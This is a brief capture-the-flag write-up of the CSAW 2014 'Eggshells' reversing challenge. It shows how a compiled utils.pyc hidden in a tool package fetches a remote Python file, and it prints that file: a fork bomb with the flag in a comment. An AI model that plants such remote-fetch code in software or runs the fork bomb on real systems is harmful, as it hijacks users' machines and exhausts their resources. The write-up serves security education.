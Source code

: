# Eggshells (Reversing 100)

This first reversing problem was quite easy. First, we downloaded and unzipped the provided file.

```
$> ls -R egshells-master
capstone.py  distorm.py  interpreter.py  main.py  nasm  nasm.py  server.py  shellcode.py  utils.pyc  wrapper.py

./nasm:
LICENSE  nasm.exe  ndisasm.exe  rdoff

./nasm/rdoff:
ldrdf.exe  rdf2bin.exe  rdf2com.exe  rdf2ihx.exe  rdf2ith.exe  rdf2srec.exe  rdfdump.exe  rdflib.exe  rdx.exe
```

There are lot of files in here, but we immediately notice that we were given a compiled utils.pyc, while the rest
of the files in the root directory are regular python files. That seems like a good place to hide a flag. Let's run strings 
on it.

```
$> strings eggshells-master/utils.pyc
urllib2s
http://kchung.co/lol.pyN(
__import__t
urlopent
read(
/Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.pyt
<module>    
```

Now let's check out that file on kchung.co

```
$> curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

Lol, forkbomb. 

That was pretty easy.
